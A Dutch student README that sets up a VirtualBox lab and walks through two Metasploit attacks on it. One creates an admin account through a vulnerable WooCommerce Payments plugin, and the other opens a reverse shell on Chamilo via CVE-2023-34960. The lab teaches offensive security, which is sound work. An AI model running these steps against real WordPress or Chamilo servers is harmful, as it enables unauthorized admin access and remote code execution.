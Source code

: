 # Readme voor onze exploits

Auteurs: Arthur Van Ginderachter, Jaak Daemen, Renz De Baets, Bert Coudenys

In deze readme gaan wij uitleggen hoe je de exploit van WordPress kan gebruiken om een Admin account te maken en toegang te krijgen met admin level access op een WordPress server.
En hoe je de exploit van Chamilo kan misbruiken.

## Scripts en requirements voor het opzetten van de omgeving.

We hebben de omgeving opzetten geautomatiseerd aan de hand van scripts zowel PowerShell als bash.
Binnen het .zip bestand zal u 8 bestanden vinden.

1. run_me.ps1
   - Dit PowerShell script is verantwoordelijk voor het opzetten van de 3 nodige VM's aan de hand van VBoxManage.
   - Dit PowerShell script zal ook de bash scripts uitvoeren en dus de volledige installatie automatiseren.
2. script1.sh
   - Dit bash script zal uitgevoerd worden door het run_me.ps1 script.
   - Dit bash script zal een databank en een WordPress server opzetten. Het zal ook de manuele installatie van WordPress overslaan en dit automatisch doen.
3. rootpromotie.sh
   - Dit bash script zal gekopieerd worden naar de kali linux machine en dan uitgevoerd worden door het run_me.ps1 script.
   - Dit bash script bevat commando's om ervoor te zorgen dat het root account geactiveerd wordt voor de Kali Linux vm.
4. guestupdate.sh
   - Dit script update de guest-additions van VirtualBox op de Ubuntu server (dit is nodig voor VBoxManage correct te kunnen gebruiken).
   - Dit bash script zal gekopieerd worden naar de Ubuntu server machine en dan uitgevoerd worden door het run_me.ps1 script.
5. woocommerce-payments.5.6.1.zip
   - Deze zip file bevat de verouderde en kwetsbare versie van een WooCommerce plugin.
   - BELANGERIJK! Pak deze zip NIET uit.
6. script2.sh
   - Dit bash script zal ook uitgevoerd worden door het run_me.ps1 script.
   - Het zal onze Chamilo omgeving opzetten met de datank en voert verdere configuraties uit.
7. chamilo.sql
   - Dit zal uitgevoerd worden door script2.sh.
   - Dit bestand zet de databank op voor Chamilo.
8. configuration.php
   - Dit zal uitgevoerd worden door script2.sh.
   - Dit PHP-bestand bevat PHP-code die wordt gebruikt om dynamische functionaliteit toe te voegen aan onze Chamilo webpagina.

Check je VirtualBox versie, indien mogelijk update deze naar de nieuwste versie.

Download ook deze drie .vdi files van [OSBoxes](https://www.osboxes.org/), deze .vdi bestanden zouden telkens de 64-bit versies moeten zijn maar check voor de zekerheid je systeem.

1. Download de "23.04 Lunar Lobster" [Ubuntu-Server](https://www.osboxes.org/ubuntu-server/)
2. Download de "2024.1" [Kali-Linux](https://www.osboxes.org/kali-linux/)
3. Download de "Debian 11 Bullseye (Debian **server** versie)" [Debain-server](https://www.osboxes.org/debian/)

Deze .vdi files mogen op uw toestel staan waar u wilt, maar hou de locatie goed bij. Pak nu beide .vdi's uit.

## Opzetten van de omgeving

1. In een administrator PowerShell venster voer eerst volgende commando's uit:

   ```powershell
   Set-ExecutionPolicy Unrestricted -Scope CurrentUser
   Set-ExecutionPolicy Unrestricted
   ```

   Deze dienen ervoor dat je straks "run_me.ps1" kunt uitvoeren in PowerShell.

2. Pak de .zip file die u gedownload heeft uit.
3. In de map "Shared-Folder" vindt u alle scripts. Voer enkel het "run_me.ps1" uit, dit via rechtermuisklik "Run with Powershell" (niet met PowerShell ISE).
4. Het script zal u vier absolute paden vragen. Onder andere van de drie .vdi bestanden als ook van de "Shared-Folder", dit is de map die u zojuist hebt gedownload en uitgepakt. Ook zal je de juiste ethernet adapater moeten selecteren om te gebruiken. Als je in een netwerk zit met authenticatie, waar het niet mogelijk is om meerdere IP adressen te hebben op dezelfde NIC, zal je de omgeving niet kunnen opzetten. Omdat onze VMs op bridged adapter ingesteld staan zal dit niet mogelijk zijn.
5. Accepteer het installeren van Nuget services en sta ook updates toe.
6. Zorg ervoor dat na het uitvoeren van het script de laatste regel in de console het volgende weergeeft:

```bash
CHAMILO: IP-adres van Debian-server: 172.31.32.247 #IP-adres dat logisch is in jouw netwerk
CHAMILO: domeinn naam van chamilo webserver: jaakisgeenarthur.com
WORDPRESS: IP-Adres van Ubuntu-server: 192.168.69.69 #IP-adres dat logisch is in jouw netwerk
WORDPRESS: domein naam van wordpress webserver: arthurisgeenjaak.com
```

Als dit niet het geval is, betekent dit dat het hosts-bestand niet correct is aangemaakt.

Hier volgt een voorbeeld van hoe het einde van het script kan uitzien (indien er een fout is in geslopen):

```bash
IP-Adres van de Ubuntu-server: 192.168.69.69 #IP-adres dat logisch is in jouw netwerk
IP-Adres van de Ubuntu-server:
```

U kan dit oplossen door:

1. Deze zal enkel de bash scripts uitvoeren die niet correct zijn uitgevoerd aangezien de VM's al bestaan en bepaalde gedeeltes van de installatie al gebeurd zijn.
2. U voegt deze handmatig toe als het script niet correct heeft gewerkt door het commando `sudo nano /etc/hosts` uit te voeren en daar te controleren of het gegeven ubuntu server ip er in staat en vervolgens arthurisgeenjaak.com er naast te typen.

## Misbruiken van de exploit in WooComerce a.d.h.v. Metasploit

Na het opzetten van de werkomgeving kan u de exploit gebruiken om een admin level user toe te voegen.
Dit hebben wij gedaan via Metasploit.

Check of dat je de webpagina "arthurisgeenjaak.com" kan bereiken. Op "arthurisgeenjaak.com/wp-admin" inloggen kan met:arthur, wachtwoord: arthur

1. Open Metasploit op de Kali Linux en u zult een terminal te zien krijgen.
   In deze terminal kan u het volgende commando uitvoeren om de exploit te zoeken:

   ```bash
   search woocommerce
   ```

2. We zijn op zoek naar de exploit genaamd "auxiliary/scanner/http/wp_payments_add_user 2023-03-22". Gebruik voor het selecteren van de juiste exploit het commando:

   ```bash
   use #{numer van exploit. normaal 1}
   ```

3. Nu gaan we een aantal "set" commando's uitvoeren om Metasploit de correcte informatie te geven voor deze exploit. Om meer informatie te vinden over deze commando's en waarom ze nodig zijn kan je volgende commando's gebruiken:

   ```bash
   show options
   ```

   ```bash
   set RHOSTS arthurisgeenjaak.com
   set username #{Username van het nieuw admin account die u wilt maken}
   set password #{Password van het nieuw admin account die u wilt maken}
   ```

4. Ok, nu bent u klaar om de exploit effectief uit te voeren. Gebruik hiervoor het commando:

   ```bash
   exploit
   ```

5. Na het uitvoeren hiervan, zal er een nieuw account aangemaakt zijn op de WordPress server. Op "arthurisgeenjaak.com/wp-login.php" kan je dan met het aangemaakte account inloggen. Je kan hierdoor misbruik maken van deze exploit door dat je op de server kwaadaardige acties kan uitvoeren.

## Exploit van Chamilo

1. Op de Chamilo webpagina "jaakisgeenarthur.com" kan je inloggen met login: `admin`, wachtwoord: `Test123` dit kan je gewoon in een webbrowser doen.

Extra: als je ingelogd bent kan je controleren onder "Dashboard", dan onder het tablad "extensies" als je hieronder Chamilo "Rapid" ziet staan dan is de installatie succesvol.

2. Open Metasploit op de Kali Linux en zoek in de terminal naar de exploit van Chamilo.

```bash
   search chamilo
```

3. De exploit die we nodig hebben is "exploit/Linux/http/chamilo_unauth_rce_cve_2023_34960", om de juiste exploit te selecteren in de terminal van Metasploit gebruik je het commando:

```bash
use #{nummer van de exploit, normaal 0}
```

4. Om extra info te verkrijgen omtrent de commando's die je kan gebruiken in Metasploit, kan je het volgende commando gebruiken:

```bash
show options
```

5. Instellen van onze remote host:

```bash
set RHOST jaakisgeenarthur.com
```

6. Het huidige IP adres te zien van de Ubuntu server:

```bash
ip -a
```

7. Voor verbinding te maken met (onze) Chamilo server heb je het IP adres nodig van de Ubuntu server, omdat dit een reverse shell is.

```bash
set lhost #{IP adres}
```

8. Om de exploit uit te voeren, geef het volgende commando in:

```bash
exploit
```

9. Met het volgende commando kan je de configuratie van Chamilo bekijken.

```bash
pwd
ls
```
